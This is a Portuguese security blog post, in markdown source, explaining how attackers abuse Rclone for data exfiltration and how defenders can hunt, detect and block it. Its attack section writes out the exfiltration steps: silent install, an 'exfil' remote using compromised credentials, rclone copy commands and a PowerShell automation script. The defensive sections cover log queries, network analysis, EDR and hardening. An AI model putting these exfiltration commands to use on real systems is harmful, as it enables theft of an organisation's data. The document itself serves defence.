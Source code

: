 ```yaml
---
title: "Usando o Rclone para exfiltração de dados: Técnicas de hunting, defesa e detecção"
date: 2024-11-05T23:23:51-03:00
draft: false
description: 
noindex: false
featured: false
pinned: false
comments: false
series:
#  - 
categories:
#  - 
tags:
#  - 
images:
#  - 
# menu:
#   main:
#     weight: 100
#     params:
#       icon:
#         vendor: bs
#         name: book
#         color: '#e24d0e'
---
```

## 1. Introdução

O Rclone é uma ferramenta de linha de comando altamente poderosa e flexível para gerenciar arquivos em armazenamento na nuvem. Ele permite interagir com mais de 40 diferentes serviços de armazenamento em nuvem, incluindo Google Drive, OneDrive, Amazon S3, Dropbox e muitos outros. Ele permite copiar, mover e sincronizar arquivos entre sistemas locais e armazenamentos na nuvem, facilitando o gerenciamento de grandes volumes de dados.

Embora seja frequentemente utilizada de forma legítima para sincronização e backup de dados, também pode ser explorada por atacantes, especialmente em casos de exfiltração de dados, como é o caso de alguns tipos de ransomware. Como é uma ferramenta legítima, muitos ambientes corporativos podem não ter regras de segurança específicas para monitorá-la, o que a torna um alvo para uso em ataques de exfiltração de dados.

Neste artigo técnico, exploraremos como ele pode ser usado para exfiltrar dados, como os atacantes podem usar a ferramenta em um cenário de ataque, além de técnicas de defesa, detecção e hunting para proteger um ambiente corporativo contra esse tipo de ameaça.

## Usando o Rclone para Exfiltração de Dados

Um dos métodos mais comuns de exfiltração de dados por atacantes é o uso de ferramentas legítimas, como o Rclone, para mascarar atividades maliciosas e evitar a detecção por ferramentas de segurança convencionais. Abaixo, explicamos como um atacante pode usar o Rclone para exfiltrar dados:

Passo 1: Preparando o Ambiente
Para usar o Rclone, o atacante primeiro precisa instalar a ferramenta no sistema comprometido. Dependendo do acesso que o atacante tenha, ele pode usar scripts ou ferramentas de automação para instalar o Rclone de forma silenciosa.

Instalação do Rclone (caso a ferramenta não esteja presente no sistema):
bash
Copy code
curl https://rclone.org/install.sh | sudo bash
Passo 2: Configuração do Rclone
Para começar a exfiltrar dados, o atacante precisa configurar o Rclone para usar um serviço de armazenamento na nuvem controlado por ele. Isso geralmente é feito usando o comando rclone config.

Iniciar configuração do Rclone:

bash
Copy code
rclone config
Criar uma nova configuração para um serviço de nuvem (exemplo: Google Drive, S3, etc.):

Selecionar n para criar uma nova configuração.
Nomear o remoto como "exfil".
Escolher o tipo de armazenamento (exemplo: Google Drive).
Inserir as credenciais da nuvem comprometida.
Passo 3: Exfiltrar Dados
Após configurar o serviço de nuvem, o atacante pode usar o comando rclone copy para exfiltrar os dados do sistema comprometido para a nuvem:

Comando para exfiltração:
bash
Copy code
rclone copy /path/to/data exfil:bucket-name --progress
Esse comando copia os dados para o armazenamento na nuvem, ocultando o tráfego de rede real de ferramentas de monitoramento tradicionais, pois os dados são enviados para um serviço legítimo de nuvem. Os atacantes podem usar opções de criptografia e compressão para dificultar ainda mais a detecção.

Passo 4: Automatizando a Exfiltração
Atacantes podem automatizar o processo de exfiltração usando scripts para transferir arquivos periodicamente ou em grandes volumes, sem que seja necessário intervenção manual.

Exemplo de um script PowerShell para automatizar o processo:

powershell
Copy code
$path = "C:\Users\Comprometido\Documents"
rclone copy $path exfil:backup-folder --progress
Técnicas de Hunting para Detecção de Exfiltração com Rclone
Embora o uso do Rclone seja legítimo, ele pode ser detectado em um ambiente corporativo com a implementação das técnicas de hunting apropriadas. Algumas abordagens incluem:

1. Monitoramento de Processos e Comandos
Os administradores de sistemas devem monitorar os processos executados e os comandos invocados. O uso do Rclone geralmente é visível em processos em execução no sistema. Configurar alertas para a execução de comandos como rclone copy ou rclone sync pode ser uma maneira eficaz de detectar exfiltração.

Exemplo de comando para monitorar a execução do Rclone no Windows:

powershell
Copy code
Get-WinEvent -LogName Security | Where-Object { $_.Message -like "*rclone*" }
2. Análise de Tráfego de Rede
O Rclone geralmente se comunica com a nuvem via HTTPS, o que pode ser mais difícil de detectar no tráfego de rede sem o uso de inspeção profunda de pacotes. No entanto, é possível monitorar atividades suspeitas como:

Grandes volumes de upload para servidores de nuvem desconhecidos.
Conexões frequentes a IPs de serviços de armazenamento na nuvem.
Análises de tráfego de rede podem ser feitas usando ferramentas como Wireshark, Suricata ou Zeek para identificar comunicações anormais.

3. Análise de Logs de Eventos
Os logs de eventos do sistema podem fornecer informações valiosas sobre atividades suspeitas. No caso do Rclone, logs de auditoria no Windows ou Linux podem identificar a execução do programa. Verifique os logs de auditoria para ações como a execução de comandos desconhecidos ou o acesso a arquivos confidenciais.

4. Ferramentas de Endpoint Detection and Response (EDR)
Ferramentas de EDR podem ser configuradas para monitorar e identificar comportamentos anômalos, como o uso de ferramentas de sincronização de nuvem como o Rclone. O uso de EDR pode fornecer visibilidade em tempo real sobre processos, registros de atividades e conexões de rede, ajudando a identificar atividades de exfiltração.

Técnicas de Defesa Contra Exfiltração com Rclone
A defesa contra exfiltração de dados com o Rclone envolve diversas abordagens, que incluem controle de acesso, monitoramento rigoroso e resposta rápida. Algumas das melhores práticas incluem:

1. Bloquear ou Monitorar o Uso de Ferramentas de Armazenamento em Nuvem
Se o uso de serviços de nuvem não for permitido no ambiente, considere bloquear ou monitorar ativamente o acesso a plataformas de nuvem usando um firewall corporativo ou um proxy de rede.

2. Endurecimento de Sistemas
Realizar o endurecimento de sistemas, garantindo que apenas as ferramentas e aplicativos necessários estejam presentes nos sistemas corporativos. Isso pode incluir desabilitar a instalação de softwares não autorizados, como o Rclone, ou utilizar ferramentas de controle de aplicativos para restringir o uso de ferramentas específicas.

3. Limitar Privilégios de Acesso
Certifique-se de que os usuários tenham apenas os privilégios necessários para executar tarefas específicas. Isso pode ser feito implementando o princípio do menor privilégio (Least Privilege Principle) e controlando rigorosamente as permissões de acesso a sistemas sensíveis.

4. Implementar Criptografia
Sempre que possível, use criptografia tanto para os dados em repouso quanto para os dados em trânsito. Isso ajuda a proteger as informações mesmo que o atacante consiga exfiltrá-las para a nuvem.

Considerações Finais
O Rclone é uma ferramenta poderosa que pode ser utilizada tanto para fins legítimos quanto maliciosos. Compreender como ele pode ser explorado por atacantes é fundamental para implementar defesas eficazes em um ambiente corporativo. Técnicas de hunting e uma estratégia sólida de defesa, como o monitoramento de tráfego de rede e a análise de logs, podem ajudar a detectar e mitigar a exfiltração de dados via Rclone antes que danos significativos ocorram.




<!-- begin wwww.htmlcommentbox.com -->
  <div id="HCB_comment_box"><a href="http://www.htmlcommentbox.com">Widget</a> is loading comments...</div>
 <link rel="stylesheet" type="text/css" href="https://www.htmlcommentbox.com/static/skins/bootstrap/twitter-bootstrap.css?v=0" />
<!-- end www.htmlcommentbox.com -->